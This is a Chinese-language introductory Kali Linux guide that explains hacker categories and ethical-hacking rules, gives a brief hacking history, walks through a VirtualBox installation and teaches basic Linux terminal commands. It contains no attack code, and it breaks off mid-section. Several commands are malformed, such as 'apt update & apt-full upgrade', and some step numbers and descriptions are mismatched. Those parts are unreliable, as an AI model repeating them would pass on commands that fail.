# Kali Linux 骇客攻精通指南


## 简介

### 什么是黑客行为？

黑客行为（Hacking）是指识别计算机系统或网络中的弱点并利用这些弱点以获取访问权限的过程。黑客行为通过破解密码、操纵系统等方式来实现对特定系统的访问。

执行黑客行为的个人被称为黑客（Hacker）。黑客行为可以针对单个系统或一组系统、整个局域网、网站、电子邮件账户或社交媒体。通过使用密码破解算法程序可以获取密码。然而，值得注意的是，黑客行为并不总是为了恶意获利。

### 谁是黑客？

黑客是那些发现计算机系统和网络漏洞并利用它们来获取访问权限的人。他们大多是熟悉计算机安全的资深程序员。这些专家根据其行为目的被分为不同类别。以下列表根据意图对黑客进行了分类：

- **非道德黑客：** 非道德黑客也被称为黑帽黑客；他们是以恶意意图获取计算机网络访问权限的罪犯。他们意图窃取商业数据、侵犯隐私权、从银行账户转移资金等。
- **道德黑客：** 道德黑客，也称为白帽黑客，是熟练的计算机专家，他们系统地利用编程技能入侵计算机系统、应用程序、网络或其他计算资源。他们代表公司执行操作，并获得了许可，以便他们能够发现恶意黑客可能利用的安全缺陷和漏洞。
- **灰帽黑客：** 介于道德黑客和黑帽黑客之间的黑客。他们通过识别弱点来获取计算机系统的未经授权访问。他们可能会决定将这些弱点透露给所有者以采取适当措施，或者将其用于自身利益。

### 什么是道德黑客？

道德黑客的主要重要性在于通过识别系统基础设施的任何漏洞来评估系统的安全性。道德黑客围绕着利用系统中的缺陷（如果存在）来确定是否可以进行恶意活动。道德黑客利用他们的知识和技能来绕过组织的系统安全。然而，道德黑客必须遵守以下规则：

- 在进行黑客攻击前，从计算机系统和/或计算机网络所有者处获得书面授权。
- 保护组织的隐私。
- 报告计算机系统中所有识别出的漏洞，以确保透明度。
- 将识别出的漏洞通知硬件和/或软件供应商。

### 为什么需要道德黑客？

信息是组织最宝贵的资源之一。信息安全可以维护组织的形象并节省大量资金。黑客行为被认为是对任何公司的威胁，尤其是那些主业为现金交易业务的公司。以 PayPal 这样的公司为例，如果有人黑入其任何关键系统，他们将面临严重损失。因此，道德黑客使公司能够领先于那些会破坏或毁掉公司运营的网络罪犯。

### 道德黑客的合法性

雇佣道德黑客是为了进行渗透测试。他们利用自己的计算技能来确定公司系统的安全级别。对公司系统安全性进行分级是商业上的必要之举。如果道德黑客不进行渗透测试，公司还能如何识别潜在缺陷并针对真正的罪犯采取有效的防御措施？

大多数组织认为，授权一名道德黑客测试公司的防御措施就足以提供法律保护。雇佣黑客的行为基于这样一种信念：他们是为了公司的最大利益着想。然而，黑客攻击可能需要使用社会工程学。因此，道德黑客最终可能会使用非法获取的凭据登录公司系统。当这种情况发生时，该行为可能被视为非法。

## 黑客历史

对于大多数人，尤其是在技术时代，黑客（Hacking）并不是一个新词。许多人曾成为这种活动的受害者，且经历通常是破坏性的，但黑客行为是如何产生的呢？“Hacking”这个词起源于麻省理工学院（MIT），已经使用了大约六十四年。而这种行为本身在一百多年前就已经开始了。

1878年，一群经营贝尔电话（Bell Telephone）接线板的少年因为误导和切断接入电话而非将其连接到预定接收者而被解雇。黑客行为最初是一种学习系统如何工作以及寻找方法来修复和提高计算机操作系统性能的方式。随着世界的技术进步，随着时间的推移，这演变成了利用漏洞并入侵计算机系统或网站以获取敏感信息的方式。

在 50 年代末和 60 年代初，大多数是学生的黑客们被当时常见的巨型大型机系统所吸引。他们开发了编程快捷方式，以提高大型机的计算任务能力。一个很好的例子是 Thomas E. Kurtz 和 John G. Kemeny 创建的 BASIC 语言，旨在帮助没有编程背景的人能够使用计算机。

到 1969 年，高级研究计划局（ARPA）创建了 ARPANET，这是今天互联网的前身。ARPANET 在犹他大学、加州大学圣巴巴拉分校、加州大学洛杉矶分校和斯坦福研究所之间建立了一个网络。

现代对黑客的理解出现在 20 世纪 70 年代，当时一个...

一位名叫 John Draper 的电话黑客发现了一种可以拨打免费电话的方法。他是通过构建一个“蓝盒子”（blue box）来实现的，该设备能够利用标准电话线路无法拨打的隐藏代码。到 1978 年，Ward Christiansen 和 Randy Seuss 开发了第一个电子公告板系统（BBS）。

在 80 年代，由于 IBM 对个人电脑的大规模生产和营销，计算机的使用变得更加普及。随着越来越多的人访问 ARPANET，仅在美国，计算机的数量就增加到了千万台。黑客行为开始受到关注，以至于 1983 年上映了一部名为《战争游戏》（War Games）的流行黑客电影。这是第一部让普通观众体验黑客世界的电影。在同一时代，414s 黑客组织入侵了几个高知名度的计算机系统，如太平洋安全银行（Security Pacific Bank）和洛斯阿拉莫斯国家实验室（Los Alamos National Laboratory）。同一时期，一名名为 Ian Murphy 的黑客因入侵 AT&T 的计算机系统而被判刑。

在 90 年代，一个名为“欺骗大师”（Masters of Deception, MOD）的组织与另一个被称为“毁灭军团”（Legion of Doom, LOD）的组织发生了冲突。这场冲突被称为臭名昭著的“黑客大战”（The Great Hacker War）。此后，出现了许多个人（如 Kevin Mitnick）和组织（如 Anonymous）入侵计算机系统和网络的案例。

最初源于纯粹的好奇心以及理解和解决计算机系统的需求，后来演变成了对机构、网络和个人计算机系统的犯罪攻击，以获取未经授权的访问权限。这促使了网络安全（cybersecurity）的产生，以打击对系统的非法访问。

## 搭建实验室

### 基础概览与所需软件

搭建黑客实验室有两种方法：

- 1) 使用虚拟机
- 2) 使用可引导的 U 盘搭建实验室。

在本节中，我将向您展示在不更改操作系统的情况下，将 Kali Linux 安装到系统中最常见且最佳的方法。在搭建黑客实验室之前，让我们先了解什么是 Kali Linux 操作系统，以及为什么网络安全专家和黑客会使用它。

### 什么是 Kali Linux？

Kali Linux 是一个基于 Debian 的 Linux 发行版。它可以运行在各种设备上。此外，Kali Linux 是开源的，这意味着在广泛的场景中使用它是免费且合法的。然而，大多数专家建议，如果您是对网络安全感兴趣的初学者，不建议直接使用 Kali Linux。他们鼓励您利用其他 Linux 发行版带来的便捷性。此外，值得注意的是，Kali Linux 采用了单一 root 用户设计。这里的技巧是让您处理权限。该特性对于渗透测试和数据取证尤其有用，可用于在风险缓解项目中确定公司的薄弱点。

### 安装 Kali Linux

目前有许多软件可以让我们在不更改当前操作系统的情况下在系统中运行虚拟机。今天在这个章节中，我们将使用 VirtualBox，因为它是开源且免费使用的。我们可以同时运行多台机器。请访问 VirtualBox 官方网站下载安装程序。

要将 Kali Linux 安装到虚拟机中，您需要一个 ISO 磁盘镜像。您可以轻松地从 Kali Linux 官方网站下载。

按照以下步骤将 Kali Linux 安装到虚拟机中：

- 1. 打开 VirtualBox 并点击“新建”（New）按钮。



- 2. 给虚拟机命名并指定操作系统。

### 创建虚拟机

### 名称和操作系统

请为新的虚拟机选择一个具有描述性的名称和目标文件夹，并选择您打算安装的操作系统类型。您选择的名称将在整个 VirtualBox 中用于标识此机器。

| 字段 | 值 |
|-------|-------|
| 名称 | Kali Os |
| 机器文件夹 | C:\Users\Shekhar\VirtualBox VMs |
| 类型 | Linux |
| 版本 | Debian (64-bit) |

在这里，您会看到四个标签，分别标为“名称”、“机器文件夹”、“类型”和“版本”。在“名称”标签中，您需要为您的虚拟机命名。在“机器”标签中，您需要指定要在哪里存储虚拟机的文件。在“类型”标签中，您需要告诉 VirtualBox 您将要安装哪个操作系统。在“版本”标签中，您需要指定安装的操作系统版本。

- 3. 为虚拟机分配内存（RAM）。

### 创建虚拟机

### 内存大小

选择要分配给虚拟机的内存（RAM）大小，单位为兆字节（MB）。

推荐的内存大小为 **1024 MB**。

在 4 MB 到 8192 MB 的范围内选择了 2048 MB。

点击“下一步”按钮后，系统将要求您选择分配给虚拟机的内存（RAM）量（MB）。如果您的系统有 8GB 内存，建议仅分配 2GB 内存。如果您的电脑有 16GB 内存，则可以分配 4GB 内存。

我的电脑有 8GB 内存，所以我仅为虚拟机分配 2GB 内存。

- 4. 创建虚拟磁盘。

### 创建虚拟机

### 硬盘

如果愿意，您可以为新机器添加虚拟硬盘。您可以创建一个新的硬盘文件，或者从列表中选择一个，或者通过文件夹图标从另一个位置选择一个。

如果您需要更复杂的存储设置，可以跳过此步骤，并在机器创建完成后修改机器设置。

推荐的硬盘大小为 8.00 GB。

- [ ] 不要添加虚拟硬盘
- [x] 现在创建虚拟硬盘
- [ ] 使用现有的虚拟硬盘文件
  - Kali Linux.vdi (Normal, 40.00 GB)

在这里，您需要指定是要创建新的虚拟硬盘还是使用现有的硬盘。由于我们是从零开始创建虚拟机，因此我们将选择“现在创建虚拟硬盘”并点击“创建”按钮。

#### 5. 选择硬盘文件类型

### 创建虚拟硬盘

#### 硬盘文件类型

请选择您希望为新虚拟硬盘使用的文件类型。如果您不需要将其与其他虚拟化软件一起使用，可以保持此设置不变。

- [x] VDI (VirtualBox Disk Image)
- [ ] VHD (Virtual Hard Disk)
- [ ] VMDK (Virtual Machine Disk)

专家模式 下一步 取消

在这里，您需要选择希望为新虚拟硬盘使用的文件类型。我们将保持默认设置并点击“下一步”按钮。

#### 6. 物理磁盘存储

### 创建虚拟硬盘

### 物理硬盘存储

请选择新虚拟硬盘文件是在使用时增长（动态分配），还是以其最大尺寸创建（固定大小）。

**动态分配**的硬盘文件仅在填满时才占用物理硬盘空间（最高至**固定大小**），但当空间被释放时，它不会自动收缩。

**固定大小**的硬盘文件在某些系统上创建时间可能较长，但使用起来通常更快。

- ● 动态分配
- ○ 固定大小

在本节中，我们需要指定是要使用动态分配的硬盘还是固定大小的硬盘。如果我们选择动态分配的硬盘，文件仅在填满时才会占用物理硬盘的空间。固定大小的硬盘则相反，指定的空间会自动分配给磁盘，因此不会随使用而扩展。

我们将选择动态分配的硬盘。因此，请选择它并点击“下一步”按钮。

- 7. 选择文件位置和大小

### 创建虚拟硬盘

### 文件位置和大小

请在下面的框中输入新虚拟硬盘文件的名称，或点击文件夹图标选择创建文件的不同文件夹。

`C:\Users\Shekhar\VirtualBox VMs\Kali Os_\Kali Os_.vdi`

选择虚拟硬盘的大小（MB）。此大小是虚拟机能够在硬盘上存储的文件数据量的上限。

20.00 GB

在这里，我们需要指定虚拟硬盘的存储位置以及我们要分配多少空间作为虚拟硬盘。我将设置 20GB，保持位置部分为默认值，然后点击“创建”按钮。

- **8.** 进入设置。

在运行虚拟机之前，我们需要进行一些更改，因此请点击“设置”按钮。




- 常规
- 系统
- 显示
- 存储
- 音频
- 网络
- 串行端口
- USB
- 共享文件夹
- 用户界面

### 常规

| 基础 | 高级 | 描述 | 磁盘加密 |
| :--- | :--- | :--- | :--- |
| 名称: Kali Linux | | | |
| 类型: Linux | | | |
| 版本: Debian (64-bit) | | | |

#### 9. 启用扩展功能

Kali Linux 需要一些额外功能，因此我们必须启用扩展功能。请前往“系统”选项卡。

在“系统”下，我们可以看到一个名为 **“Extended Features”（扩展功能）** 的选项，启用它并点击确定按钮。Virtual Box 默认分配 1 个 CPU 核心，这太低了，我们可以通过前往“处理器”选项卡来更改它。

#### 10. 增加 CPU 并启用扩展功能

### 系统

- 主板 | 处理器 | 加速

**处理器(s):** `2` (1 CPU 至 4 CPUs)
**执行上限:** `100%` (1% - 100%)
**扩展功能:** ☑ 启用 PAE/NX
☐ 启用 Nested VT-x/AMD-V

**[确定]** **[取消]**

将处理器更改为 2，并在“执行上限”下方启用扩展功能，然后点击确定按钮。

- **12.** 前往“显示”选项卡，增加显存并启用扩展功能。

- 13. 前往“存储”选项卡并定位 Kali Linux ISO 文件。

现在点击确定按钮并启动您的虚拟机。

- **14.** 从启动菜单中选择“图形化安装 (Graphic Installation)”选项。

在这里，您会看到许多选项。使用下箭头选择“Graphical Installation”并点击继续。

- **15.** 选择语言。我们建议使用您的母语或任何您能流畅交流的语言，这样您就不会遇到任何困难。

### 选择一种语言

选择安装过程中使用的语言。所选语言也将作为安装系统的默认语言。

语言：
- Chinese (Simplified) - 中文(简体)
- Chinese (Traditional) - 中文(繁體)
- Croatian - Hrvatski
- Czech - Čeština
- Danish - Dansk
- Dutch - Nederlands
- Dzongkha - རྫོང་ཁ
- **English** - **英语**
- Esperanto - Esperanto
- Estonian - Eesti
- Finnish - Suomi
- French - Français
- Galician - Galego
- Georgian - ქართული
- German - Deutsch

#### 16. 选择位置

在此对话框中，您将被要求选择您所在的位置以便继续。此选项决定了 Kali Linux 操作系统的区域设置。随后，您需要根据所选位置确定时区。

### KALI - 选择您的位置

所选位置将用于设置您的时区，例如帮助选择系统区域设置。通常这应该是您居住的国家。

这是一个基于您所选语言的位置简表。如果您的位置不在列表中，请选择“其他 (other)”。

国家、领土或地区：
- 中国香港
- 印度
- 爱尔兰
- 以色列
- 新西兰
- 尼日利亚
- 菲律宾
- 新加坡
- 南非
- 英国
- 美国
- 赞比亚
- 津巴布韦
- 其他

#### 17. 配置键盘

此对话框要求您选择键盘布局。请使用方向键选择键盘布局并点击下一步。此选项为 Kali Linux 操作系统配置您的键盘。默认配置为美式英语。

点击下一步后，将显示安装进度，并且您将看到“网络配置”对话框。

#### 18. 配置网络 – 输入主机名

在此对话框中，您将被提示输入系统的计算机名（hostname）。这是一个家庭网络，因此您可以随意设置。输入名称后，点击继续。

- 19. 配置网络 – 输入域名

此对话框要求您输入系统的域名。由于是家庭网络，我们可以将其设置为类似 `homenetwork.com` 或任何其他名称。

#### 20. 设置用户和密码

在此对话框中，您将被要求为 root 用户账户输入密码。输入您选择的密码并点击继续。此用户密码是 root 用户的密码，您将在安装结束时使用它登录。

### 设置用户和密码

您需要为系统管理账户 'root' 设置密码。拥有 root 权限的恶意或不合格用户可能会造成灾难性后果，因此您应注意选择一个不易被猜到的 root 密码。它不应该是字典中的单词，也不应该是容易与您联系起来的单词。

一个好的密码应包含字母、数字和标点符号的混合，并应定期更换。

root 用户不应使用空密码。如果您将其留空，root 账户将被禁用，且系统的初始用户账户将被授予使用 `sudo` 命令成为 root 的权力。

只有当您在上面的屏幕中将 root 密码留空时，系统才会要求您设置用户。如果您设置了密码，则不会显示后续屏幕。在这种情况下，您必须使用上述设置的密码以 root 身份登录。

另一方面，在当前屏幕中，您应该用小写字母输入账户的用户名。此账户必须用于一般的非管理活动。点击继续。

在接下来的屏幕中，您必须输入除 root 以外的用户全名。此账户应用于一般的非管理活动。点击继续。

### 设置用户和密码

系统将为您创建一个用户账户，以便在进行非管理活动时代替 root 账户使用。

*请输入该用户的真实姓名。此信息将用于例如该用户发送电子邮件的默认发件人，以及任何显示或使用用户真实姓名的程序。使用您的全名是一个合理的选择。*

*新用户的全名：* __________________________________________________

**[截图]** | **[返回]** | **[继续]**

#### Kali Linux 安装 – 设置用户

在此屏幕中，您必须用小写字母输入账户的用户名。当您想以非 root 用户登录时，这一点非常重要。此账户应用于非管理的常规活动。完成后，点击继续。

#### Kali Linux 安装 – 设置用户账户

在上述屏幕中，您必须为新创建的用户输入密码。请记住，这不是 root 密码。输入密码后，点击下一步。

#### Kali Linux 安装 – 设置用户密码

#### 21. 配置时钟

此对话框根据所选位置要求设置时区。请选择您所在的时区并点击下一步。

#### 22. 分区磁盘

此对话框询问您希望如何对硬盘进行分区。选择“以 guided - 使用整个磁盘 (Direct - Use the entire disk)”并点击下一步。这是默认选项。

#### 23. 选择分区方案

此对话框提示您选择磁盘分区方案。默认情况下，选择“将所有文件放在一个分区中 (all files in a partition)”并点击下一步。

### Kali - 分区磁盘

选定分区：SCSI33 (0,0,0) (sda) - VMware, VMware Virtual S: 64.4 GB

磁盘可以使用几种不同的方案进行分区。如果您不确定，请选择第一个。

分区方案：
- 所有文件都在一个分区中（推荐新用户）
- 独立的 /home 分区
- 独立的 /home, /var 和 /tmp 分区

#### 24. 磁盘分区概览

下一个对话框提示您根据之前选择的位置指定时区。输入您选择的时区并点击继续。


### 分区磁盘

这是您当前配置的分区和挂载点的概览。选择一个分区以修改其设置（文件系统、挂载点等），选择一个可用空间以创建分区，或选择一个设备以初始化其分区表。

- **引导分区**
- **配置软件 RAID**
- **配置逻辑卷管理 (LVM)**
- **配置加密卷**
- **配置 iSCSI 卷**

| 设备 | 分区 | 大小 | 类型 | 挂载点 |
| :--- | :--- | :--- | :--- | :--- |
| SCSI33 (0,0,0) (sda) - 64.4 GB VMware | #1 主分区 | 62.3 GB | ext4 | / |
| | #5 逻辑分区 | 2.1 GB | swap | swap |

撤销分区更改
完成分区并将更改写入磁盘
**屏幕截图 帮助 返回 继续**

#### 25. 磁盘分区确认

在此对话框中，系统要求您确认磁盘的更改。选择“是”并点击“继续”。

#### 26. 安装开始

一旦所有设置就绪，实际安装将开始。请等待直到软件包管理器配置完成。

#### 27. 配置软件包管理器

此对话框询问您是否要为软件包管理器配置网络镜像。选择“是”然后继续。您可以通过选择“否”来跳过此步骤。默认选项“是”是更好的选择。

#### 28. 配置软件包管理器 – HTTP 代理

此对话框询问您是否需要 HTTP 代理。请保持该字段为空并点击“下一步”。

#### 配置软件包管理器

如果您需要使用 HTTP 代理访问外部网络，请在此输入代理信息。否则，请保持为空。

代理信息应采用标准格式 `http://[[user]:pass@]host[:port]/`。除非您明确需要代理，否则建议将此字段留空。

HTTP 代理信息（无则留空）：

安装过程将继续。请稍候并继续流程。

#### 配置软件包管理器

正在配置 apt
正在检索第 23/25 个文件（剩余 6min 57s）

#### 29. 安装 GRUB 引导加载程序

此对话框询问您是否要安装 GRUB 引导加载程序。选择“是”并点击“继续”。

#### 30. 为 GRUB 引导加载程序安装选择设备

此对话框要求您为 GRUB 安装选择一个引导加载设备。选择 “/dev/sda” 然后点击“下一步”。

#### 在硬盘上安装 GRUB 引导加载程序

您需要通过在可启动设备上安装 GRUB 引导加载程序，使新安装的系统能够启动。通常的方法是将 GRUB 安装在第一个硬盘的主引导记录 (MBR) 中。如果您愿意，也可以将 GRUB 安装在驱动器的其他位置、另一个驱动器，甚至光驱中。

引导加载程序安装设备：
手动输入设备：`/dev/sda`

安装将继续。请等待直到进程结束。

### 31. 安装完成

安装将继续进行，直到出现“安装完成”对话框。点击“下一步”以完成安装过程，并等待虚拟机重启。重启后，应显示登录界面。使用您的用户名登录并输入密码。您将看到 Kali Linux 桌面。

会出现一个新的安装窗口。然而，这仅用于完成安装过程，随后将再次重启虚拟机。

#### Kali Linux 安装

虚拟机重启后，您将看到 Kali Linux 的黑色登录界面。

使用用户名 “Root” 登录，密码应该是您在首次安装过程中输入的内容。

#### 步骤 30 – 切换到全屏模式

请记住，登录后您将无法直接切换到全屏模式。您看到的将是 800 × 600 的分辨率，这是标准分辨率。这是因为尚未安装 virtual box tools。请完成安装 virtual box 所需的步骤。安装并重启后，您应该能以与计算机相同的分辨率查看桌面。

按照以下步骤安装 virtual box tools：

- 1. 转到“设备”选项卡并点击“插入增强功能 CD 镜像”。
- 2. 点击 VBox_Gas。
- 3. 在此处打开终端，输入 `sudo su` 将当前用户更改为 root。
- 4. 我们需要运行 `autorun.sh` 文件，但它不是可执行文件，因此我们需要先将其模式更改为可执行。可以通过输入 `chmod +x (文件名)` 来实现。

```bash
root@kali:/media/cdrom0# chmod +x autorun.sh
root@kali:/media/cdrom0#
```

- 5. 输入 `bash (文件名)` 运行该文件。

```bash
root@kali:/media/cdrom0# ./autorun.sh
Verifying archive integrity... All good.
Uncompressing VirtualBox 6.1.16 Guest Additions for Linux........
VirtualBox Guest Additions installer
Removing installed version 6.1.16 of VirtualBox Guest Additions...
update-initramfs: Generating /boot/initrd.img-5.7.0-kali1-amd64
root@kali:/media/cdrom0#
```

安装所有工具需要一些时间，之后您将被要求重启虚拟机。

## Linux 基础

### 基础概览

在虚拟机上安装好 Kali Linux 20.3 后，我们可以开始探索它的功能。但在开始之前，您应该知道 Kali Linux 每隔几个月或一个季度就会发布一个新版本。不过，在过去的几年里，并没有出现引起广泛关注的重大变化。因此，我们在本书中学到的内容适用于所有版本的 Kali Linux，无论哪个版本。请注意，只发生了一些视觉上的细微变化，我们稍后会处理这些变化。在深入研究之前，如果您尚未更新 Kali Linux 版本，请考虑更新。您可以通过输入 `apt update & apt-full upgrade` 来执行。

### Kali Linux 2020.3 有什么变化？

正如我之前所说，并没有引起广泛关注的重大变化。因此，在本课程中学到的一切都可以在 2018 和 2019 版本中实现。未来几年可能会有新版本。

### 终端基础

在理解基础终端命令之前，我们需要了解什么是终端以及它是如何工作的。

#### 什么是终端？

终端是一个显示界面，用于返回您使用或执行的任何命令的输出结果。其主要功能是处理您的输入并显示输出。后台运行着一个程序，帮助系统理解您输入的内容以及输出结果应该是怎样的。

#### 终端快捷键

在学习一些基础的 Kali Linux 命令和快捷键之前，我想明确一点：Kali Linux 是一个对大小写非常敏感的操作系统，因此在输入命令时请务必小心。仅仅因为一个错误的字母大小写，您的命令就可能执行失败。

- **1. Ctrl + c** (终止或挂起进程)
在某些情况下，您将运行一个想要中断或终止的进程或程序。在这种情况下，您可以使用 Ctrl + c 快捷键来终止程序。

```bash
root@kali:/home/anon# apt-get update
Hit:1 http://ftp.harukasan.org/kali kali-rolling InRelease
^Cading package lists... 35%
root@kali:/home/anon#
```

- **2. Ctrl + z** (挂起命令)
有时，当我们运行一个进程时，我们需要停止它而不需要杀死该程序，在这种情况下，您可以使用此快捷键。

```bash
root@kali:/home/anon# apt-get update && upgrade
Get:1 http://ftp.harukasan.org/kali kali-rolling InRelease [30.5 kB]
Get:2 http://ftp.harukasan.org/kali kali-rolling/main i386 Packages [16.9 MB]
19% [2 Packages 1,176 kB/16.9 MB 7%]            73.3 kB/s 7min 33s^Z
[1]+ Stopped                  apt-get update
root@kali:/home/anon#
```

- **3. bg** – 后台运行
要让停止的进程在后台继续运行，您可以使用此命令。

```bash
root@kali:/home/anon# bg
[2]+ apt-get update &
Reading package lists... Done
E: Could not get lock /var/lib/apt/lists/lock. It is held by process 1799 (apt-get)
N: Be aware that removing the lock file is not a solution and may break your system.
E: Unable to lock directory /var/lib/apt/lists/
```

- **4. clear** (清屏)
如果您希望清空屏幕，请使用以下命令：

```bash
root@kali:/home/anon# clear
```


- 5. **exit** (退出终端)
- 6. **!!** (重复执行上一个命令)

```
root@kali:/home/anon# !!
apt-get update
Reading package lists... Done
E: Could not get lock /var/lib/apt/lists/lock. It is held by process 1799 (apt-get)
N: Be aware that removing the lock file is not a solution and may break your system.
E: Unable to lock directory /var/lib/apt/lists/
root@kali:/home/anon#
```

## 终端技巧 (Terminal tricks)

- 1. **Tab** - 自动补全

你可以使用 Tab 键来自动补全句子。这意味着当你输入一个命令并在完成一半时按下 Tab 键，该命令将自动补全。

- 2. **Shift + page up (Page Up)**

你可以使用 Shift + Page Up 来向上滚动页面，而无需使用鼠标。

- 3. **Shift + down (Page Down)**

你也可以使用 Shift + Page Down 来向下滚动页面，而无需使用鼠标。

- 4. **Up arrow (上方向键)**

如果你想重复之前的命令，可以使用上方向键。

- 5. **History**

要查看完整的命令历史记录，可以使用 `history` 命令。

```
root@kali:/home/anon# history
 7  clear
 8 cd /var/www/html/
 9 ls
10 clear
11 man nmap
12 man -k partation
13 man -k partition
14 sfdisk -v
15 clear
16 apropos partition
17 clear
18 cd Desktop
19 clear
20 ls
```

## 基础命令 (Basic commands)

### 1. Pwd

Pwd 代表 "print working directory"（打印工作目录）。你可以使用此命令来检查当前的工作目录。它将显示当前工作目录的完整路径。

```
root@kali:/home/anon/Desktop# pwd
/home/anon/Desktop
root@kali:/home/anon/Desktop#
```

### 2. Cd

Cd 代表 "change directory"（切换目录）。此命令可用于更改当前的工作目录。

```
root@kali:/home/anon# cd Desktop
root@kali:/home/anon/Desktop#
```

如屏幕所示，我的当前工作目录从 **anon** 变更为 **Desktop**。

### 3. Cd ~ 或 cd

你可以使用这些命令返回主目录 (home directory)。

```
root@kali:/home/anon/Desktop# cd
root@kali:~#
```

如你所见，我的当前工作目录从 desktop 变更为 home。

### 4. Cd ..

我们可以使用此命令返回上一级目录。

```
root@kali:/home/anon/Desktop# cd ..
root@kali:/home/anon#
```

### 创建文件与目录 (Creating files & directories)

在本节中，我们将学习如何使用终端创建目录。

#### 1. mkdir

`mkdir (file name)`

mkdir 代表 "make directory"（创建目录）。我们可以使用此命令来创建一个新目录。

```
root@kali:/home/anon/Desktop# mkdir test
root@kali:/home/anon/Desktop# ls
Evil-Droid exe_name payload.exe test Veil
root@kali:/home/anon/Desktop#
```

如你所见。

选项：
- `-p`：我们可以为 mkdir 使用 **-p** 选项来一次性创建多个目录。例如：我想创建一个名为 test 的目录，并在该目录内部再创建两个名为 "dir1" 和 "dir2" 的目录。在这种情况下，我可以使用 -p 选项，这将节省大量时间。

#### 2. Touch

touch 命令用于创建文本文件 (.txt)。

```
root@kali:/home/anon/Desktop# touch test1.txt
root@kali:/home/anon/Desktop# ls
Evil-Droid payload.exe test1.txt Veil
root@kali:/home/anon/Desktop#
```

如你所见，我们在当前目录下创建了一个名为 "test1.txt" 的文本文件。

#### 3. Ls

我们可以使用 **ls** 命令来列出目录的内容。还有许多其他选项可以探索。

选项：

##### I. -l

要以详细列表的形式查看目录内容，可以使用 -l 选项。

```bash
root@kali:/home/anon/Desktop# ls -l
total 12
drwxr-xr-x 6 anon anon 4096 Nov 24 05:20 Evil-Droid
-rw-r--r-- 1 anon anon 4063 Nov 23 08:20 payload.exe
-rw-r--r-- 1 root root  0 Nov 25 00:43 test1.txt
drwxr-xr-x 7 root root 4096 Nov 22 03:48 Veil
root@kali:/home/anon/Desktop#
```

如你所见，所有文件都列出了它们的创建日期以及创建文件的用户名。

##### II. ls (path)

例如：`ls /tmp/`

```bash
root@kali:/home/anon/Desktop# ls /tmp/
systemd-private-2e1e1f2e67d742d5838214449e8b1a64-colord.service-ZBw1fi
systemd-private-2e1e1f2e67d742d5838214449e8b1a64-haveged.service-EIHAZg
systemd-private-2e1e1f2e67d742d5838214449e8b1a64-ModemManager.service-oc9Q3e
systemd-private-2e1e1f2e67d742d5838214449e8b1a64-systemd-logind.service-9q7FNh
systemd-private-2e1e1f2e67d742d5838214449e8b1a64-upower.service-9fME5h
tracker-extract-files.1000
tracker-extract-files.133
root@kali:/home/anon/Desktop#
```

我们不需要进入整个目录才能访问其内容。你可以在系统的任何位置通过输入 “ls” 加上 “完整路径” 来实现。

##### III. -a

我们可以将 “-a” 与 “ls” 结合使用，以查看目录中的隐藏文件。

```bash
root@kali:/home/anon/Desktop# ls -la
total 44
drwxr-xr-x  4 anon anon  4096 Nov 25 00:43 .
drwxr-xr-x 17 anon anon  4096 Nov 25 00:41 ..
drwxr-xr-x  6 anon anon  4096 Nov 24 05:20 Evil-Droid
-rw-r--r--  1 anon anon  4063 Nov 23 08:20 payload.exe
-rw-r--r--  1 root root     0 Nov 25 00:43 test1.txt
-rw-r--r--  1 root root 12288 Nov 16 07:09 .test1.txt.swp
-rw-r--r--  1 root root 12288 Nov 16 07:09 .test2.txt.swp
drwxr-xr-x  7 root root  4096 Nov 22 03:48 Veil
root@kali:/home/anon/Desktop#
```

有很多系统文件是我们无法直接看到的，因此我们可以使用 “ls” 的 "-a" 选项来列出包括隐藏文件在内的所有文件。

##### IV. -r

我们可以使用 "-r" 选项以反序排列列出目录内容。

```
root@kali:/home/anon/Desktop# ls -l                    (常规列出)

total 12
drwxr-xr-x 6 anon anon 4096 Nov 24 05:20 Evil-Droid
-rw-r--r-- 1 anon anon 4063 Nov 23 08:20 payload.exe
-rw-r--r-- 1 root root    0 Nov 25 00:43 test1.txt
drwxr-xr-x 7 root root 4096 Nov 22 03:48 Veil

root@kali:/home/anon/Desktop# ls -rl                   (反序列出)

total 12
drwxr-xr-x 7 root root 4096 Nov 22 03:48 Veil
-rw-r--r-- 1 root root    0 Nov 25 00:43 test1.txt
-rw-r--r-- 1 anon anon 4063 Nov 23 08:20 payload.exe
drwxr-xr-x 6 anon anon 4096 Nov 24 05:20 Evil-Droid
root@kali:/home/anon/Desktop#
```

##### V. -t

